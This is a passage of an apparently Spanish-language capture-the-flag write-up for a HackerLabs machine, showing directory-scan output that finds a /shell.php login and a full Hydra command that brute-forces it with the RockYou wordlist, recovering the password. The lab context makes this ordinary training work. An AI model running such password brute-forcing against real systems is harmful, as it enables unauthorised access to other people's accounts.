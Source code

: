 ```bash                    
Target: http://192.168.1.51:8088/

[21:53:37] Starting: 
[21:53:40] 403 -  279B  - /.ht_wsr.txt
[21:53:40] 403 -  279B  - /.htaccess.orig
[21:53:40] 403 -  279B  - /.htaccess.save
[21:53:40] 403 -  279B  - /.htaccess.sample
[21:53:40] 403 -  279B  - /.htaccess.bak1
[21:53:40] 403 -  279B  - /.htaccess_extra
[21:53:40] 403 -  279B  - /.htaccess_orig
[21:53:40] 403 -  279B  - /.htaccessBAK
[21:53:40] 403 -  279B  - /.htaccessOLD
[21:53:40] 403 -  279B  - /.htaccessOLD2
[21:53:40] 403 -  279B  - /.htm
[21:53:40] 403 -  279B  - /.htaccess_sc
[21:53:40] 403 -  279B  - /.html
[21:53:40] 403 -  279B  - /.htpasswds
[21:53:40] 403 -  279B  - /.httr-oauth
[21:53:40] 403 -  279B  - /.htpasswd_test
[21:53:41] 403 -  279B  - /.php
[21:54:33] 403 -  279B  - /server-status
[21:54:33] 403 -  279B  - /server-status/
[21:54:34] 200 -  553B  - /shell.php

Task Completed
                              
```
Hemos obtenido un resultado interesante: **/shell.php**, Vamos a revisar.

![imagen.](https://github.com/V4lcyfer/blog-images/blob/main/HackerLabs/3.Campana%20Feliz/5.png?raw=true "usuario campana")

Interesante, otro portal donde podemos autenticarnos. 

![imagen.](https://github.com/V4lcyfer/blog-images/blob/main/HackerLabs/3.Campana%20Feliz/6.png?raw=true "usuario campana")

Como sospechamos que el usuario podría ser `campana`, podríamos aplicar fuerza bruta con el diccionario RockYou para probar suerte y con este mensaje de error podemos ayudarnos bastante.

### 3.3 Fuerza Bruta Shell.php

Desde nuestro Kali, vamos a ejecutar un ataque de fuerza bruta con Hydra.

```bash
┌──(root㉿v4lcyfer)-[/home/kali/Downloads]
└─# hydra -l campana -P rockyou.txt 192.168.1.51 -s 8088 http-post-form "/shell.php:username=^USER^&password=^PASS^:Username or password invalid"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-16 22:22:08
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-form://192.168.1.51:8088/shell.php:username=^USER^&password=^PASS^:Username or password invalid
[8088][http-post-form] host: 192.168.1.51   login: campana   password: lovely
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-16 22:22:12

```
¡Excelente! Hemos obtenido la contraseña: `lovely`
